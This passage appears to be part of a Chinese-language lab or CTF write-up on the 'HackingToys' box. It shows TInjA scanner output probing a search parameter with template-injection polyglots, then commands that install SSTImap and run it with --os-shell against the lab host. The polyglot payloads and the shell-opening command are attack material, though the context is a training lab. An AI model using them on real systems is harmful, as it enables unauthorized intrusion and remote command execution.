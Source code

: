 ```bash
┌──(kali💀kali)-[~/temp/HackingToys]
└─$ tinja url -u "https://192.168.10.101:3000/search?query=121&message=Product+does+not+exist"                   
TInjA v1.1.3 started at 2024-09-06_22-50-34

Analyzing URL(1/1): https://192.168.10.101:3000/search?query=121&message=Product+does+not+exist
===============================================================
Status code 200
Analyzing query parameter  message  =>  [Product does not exist]
[*] Value  O4MQGSCJNBYDUYO4  of query parameter  message  is being reflected 1 time(s) in the response body

[!] The polyglot <%'${{/#{@}}%>{{ triggered an error: Status Code 500
[*] The polyglot p ">[[${{1}}]] returned the response(s) [unmodified]
[!] The polyglot <%=1%>@*#{1} was rendered in a modified way: [1@*#{1}]
[*] The polyglot <%=1%>@*#{1} returned the response(s) [1@*#{1}]
[*] The polyglot {##}/*{{.}}*/ returned the response(s) [unmodified]

A template injection was detected and the template engine is now being identified.
[*] The polyglot <% returned the response(s) [empty]
[+] A template engine was detected, but could not be identified (certainty: Low)

Analyzing query parameter  query  =>  [121]
No errors are thrown and input is not being reflected.
No template engine could be detected

===============================================================

Successfully finished the scan
[+] Suspected template injections: 1
[+] 0 Very High, 0 High, 0 Medium, 1 Low, 0 Very Low certainty

Duration: 634.186726ms
Average polyglots sent per user input: 3
```

看上去不太阔以哦，换一个工具：

```bash
# cd /
# git clone https://github.com/vladko312/SSTImap.git
# cd SSTImap
# pip install -r requirements.txt --no-warn-script-location
# sudo ln -s /home/kali/SSTImap/sstimap.py /usr/sbin/sstimap
sstimap -u "https://192.168.10.101:3000/search?query=aaaaa&message=Product+does+not+exist"
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202409071157965.png" alt="image-20240907110119451" style="zoom:50%;" />

```bash
sstimap -u "https://192.168.10.101:3000/search?query=aaaaa&message=Product+does+not+exist" --os-shell
```
